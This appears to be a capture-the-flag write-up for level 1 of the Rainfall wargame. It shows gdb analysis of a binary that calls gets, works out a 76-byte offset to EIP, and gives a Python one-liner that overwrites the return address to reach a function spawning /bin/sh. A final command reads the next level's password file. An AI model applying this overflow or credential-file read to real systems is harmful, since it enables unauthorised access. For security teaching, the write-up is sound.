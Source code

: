 # Rainfall - Level 1


## Executable analyse
```assembly
(gdb) info functions

0x08048444  run
0x08048480  main
```

They are two functions in this program :

- The main function read from stdin by calling `gets` function
- The run function execute `/bin/sh` by calling `system` function

## The vulnerability
```assembly
0x08048472 <+46>:	movl   $0x8048584,(%esp)
0x08048479 <+53>:	call   0x8048360 <system@plt>
````

By calling `gets`, the main function is vulnerable to a **buffer overflow attack** :  
By using a ["pattern generator"](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) tool, we will try to exploit the stack and call the `run` function.


By running the command  

```assembly
(gdb) info register

eip            0x63413563	0x63413563
```
With this pattern we can deduce $eip start at 76th of gets buffer

With the command : 

```bash
(python -c "print 'A' * 76 + b'\x08\x04\x84\x44'[::-1]"; cat) | ./level1
```

Abracadabra a shell is opened as level2 user!
```bash
$> cat /home/user/level2/.pass
```